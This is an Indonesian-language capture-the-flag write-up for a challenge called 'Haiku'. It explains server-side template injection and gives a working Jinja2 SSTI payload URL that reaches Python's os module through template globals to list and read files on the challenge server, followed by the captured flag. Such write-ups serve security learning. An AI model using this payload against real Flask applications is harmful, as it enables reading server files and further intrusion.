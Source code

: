 # **Haiku**
SSTI (Server-Side Template Injection) adalah sebuah kerentanan keamanan yang terjadi ketika serangan injeksi terjadi pada logika template yang dievaluasi di sisi server. Dalam konteks aplikasi web, biasanya ada mesin template yang digunakan untuk menghasilkan tampilan halaman web dengan menggabungkan template (pola) dengan data yang diterima dari pengguna atau sumber eksternal.

SSTI terjadi ketika serangan injeksi memungkinkan penyerang untuk menyisipkan kode atau instruksi yang akan dievaluasi oleh mesin template di sisi server. Hal ini dapat memungkinkan penyerang untuk mengakses atau memanipulasi data, menjalankan perintah sistem, atau bahkan merusak keamanan aplikasi secara keseluruhan.
## **About the challenge**
Pada Challenge kali ini, Probleset memberikan Website yang dibuat dan dijalankan menggunakan Flask dan templatenya menggunakan Jinja2. Ada banyak filter yang digunakan pada website ini ( Probleset Ngasih filternya ga wajar, diluar nayla, ga habis fikri, membuat pemain ga bisa tidur nyenyak ).
## **Solution**
Setelah saya telusuri websitenya, hanya beberapa kata/karakter yang digunakan sehingga menyulitkan untuk disolve. saya mencoba membuat sebuah code yang didapat dari directory web tersebut. Dan dibawah ini kode yang dapat memecahkan challenge ini : 
```
http://103.167.136.89:10001/{{get_flashed_messages.__globals__.send_file(lipsum.__globals__.os.listdir().pop(1)).response.file.read()}}
```
And we got flag
```
ForestyHC{roses_are_red_violets_are_blue_b34b48}
```
NOTE : Challenge ini bukan pure saya yang ngerjain sendiri, dibantu dengan adanya usaha kating RKS saya :)

